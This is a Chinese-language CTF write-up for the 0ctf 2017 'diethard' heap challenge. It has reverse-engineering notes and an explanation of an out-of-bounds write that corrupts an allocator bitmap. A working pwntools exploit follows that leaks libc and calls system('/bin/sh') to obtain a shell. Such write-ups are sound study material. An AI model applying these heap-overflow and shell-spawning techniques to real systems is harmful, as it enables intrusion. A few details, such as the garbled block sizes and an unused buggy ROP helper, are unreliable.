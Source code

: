 # 0ctf2017 'diethard'

这道题主要是难在逆向上，把这道题的结构看出来，漏洞还是比较明显的。

ida 逆向的笔记

```
猜测这个heap的bin list总共9个，最小是从8开始，8,16,32,64,128，256，512，1024，2048

堆管理方式是通过mmap向系统申请空间，最多申请26个mmap块，每个mmap块的大小一次为1M, 2M, 4M, 8M...

每一个bin中存放最多34个block，block的大小从4096字节开始，依次为4096，40962,40964,4096*8,...

```

逆向完寻找漏洞，

```C
puts("Please Input Message:");
                  get_input_msg(pCont, len);
                  pMsg_st->len = len;
                  pMsg_st->pContent = pCont;
                  pMsg_st->print_func = (__int64)print_str;
                  pMsg_st[1].field_0 = total_msg++;// 存在越界写操作
```

这里在填充 Msg 结构体的时候存在一个很明显的越界写操作，本来是没法利用的，但是发现 bitmap 存储的位置和 msg 一样，都是在 mmap 区域上。所以就可以 overwrite bitmap。程序之所以要根据 len 是否大于2016采取两种不同的分配策略，就是为了让这个漏洞能够利用。

利用方式是先分配几个small chunk，然后分配两个2048大小的 chunk，这时候第二个 chunk 会把 bitmap 给覆盖掉，覆盖的值是 total_msg - 1, 我们可以把它覆盖成0b100，这样这两个2048大小的 chunk 所占用的空间就变成空闲的了。在分配一个 content length 大于2016的 chunk，这样这个 chunk 的数据段就覆盖在了已有 chunk 上，可以改写已有 chunk 的结构段，可以修改结构体中 用来 print chunk内容的函数的指针和函数的参数。然后调用 delete 就能触发漏洞了。需要 delete 两次，第一次 leak libc， 第二次 system("/bin/sh")

写 exp 就非常简单了

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
""" dddong / AAA """

from pwn import *
import sys, os, re
context(arch='amd64', os='linux', log_level='info')
context(terminal=['gnome-terminal', '-x', 'bash', '-c'])

def __get_base(p, _path):
    _vmmap = open('/proc/%d/maps' % p.proc.pid).read()
    _regex = '^.* r-xp .* {}$'.format(_path)
    _line = [_ for _ in _vmmap.split('\n') if re.match(_regex, _)][0]
    return int(_line.split('-')[0], 16)

def add_msg(msg_len, msg_content):
    p.recvuntil("3. Exit\n")
    p.sendline("1")
    p.sendlineafter("Length:\n", str(msg_len))
    p.sendlineafter("Message:\n", msg_content)

def del_msg(msg_no):
    p.sendlineafter("3. Exit\n", "2")
    p.sendlineafter("Delete?\n", str(msg_no))

def gen_rop(func_addr, args):
    """
    automate generate rop function
    _gadgets array contains gadgets address for 0,1,2,... args 
    """
    _gadgets = []
    rop = ""
    rop += p32(func_addr)
    if len(args) > 1:
        rop += _gadgets[len(args)]
        for arg in args:
            rop += p32(args)
    return rop


_program = 'diethard' 
_pwn_remote = 0
_debug = int(sys.argv[1]) if len(sys.argv) > 1 else 0

elf = ELF('./' + _program)

if _pwn_remote == 0:
    libc = ELF('./libc.so.6')
    p = process('./' + _program)

    if _debug != 0:
        if elf.pie:
            _bps = [] #breakpoints defined by yourself, not absolute addr, but offset addr of the program's base addr 
            _offset = __get_base(p, os.path.abspath(p.executable))
            _source = '\n'.join(['b*%d' % (_offset + _) for _ in _bps])
        else:
            _source = 'source peda-session-%s.txt' % _program
        gdb.attach(p.proc.pid, execute=_source)
else:
    libc = ELF('./libc.so.remote') 
    p = remote('202.120.7.194', 6666)	


payload = ''

add_msg(31, 'A')
add_msg(31, 'A')
add_msg(31, 'A')
add_msg(2015, 'A')
add_msg(2015, 'A') #overwrite the bitmap as 4

print_str = 0x400976
msg_st = [
        0xdeadbeef,
        8,
        elf.got['puts'],
        0x400976
        ]

fake_msg_head = ''.join(map(lambda x: p64(x), msg_st))

add_msg(2020, fake_msg_head)

p.sendlineafter("3. Exit\n", "2")
p.recvuntil("3. ")
libc_puts = u64(p.recv(8))
print "libc puts addr:", hex(libc_puts)

p.sendline('0')

libc.address = libc_puts - libc.symbols['puts']

msg_st = [
        0xdeadbeef,
        11,
        next(libc.search('/bin/sh')),
        libc.symbols['system'],
        ]

fake_msg_head = ''.join(map(lambda x: p64(x), msg_st))

add_msg(2020, fake_msg_head)
log.info("second delete")
p.sendlineafter("3. Exit\n", "2")

p.sendline("id")

p.interactive()

```



# 困惑

1. 写 exp 的时候遇到了一个问题，recvuntil("Delete?")这个函数有的时候会阻塞，有的时候又不会阻塞。debug 发现有的时候是能接收到这个字符串的，有的时候不能，而程序中是肯定会打印这句 话的。gdb 调试又都是对的，不知道怎么回事。

# 经验总结

1. ida 调试的时候要学会多定义结构体，enum，和数组
2. 学会定义 bitfield 的 enum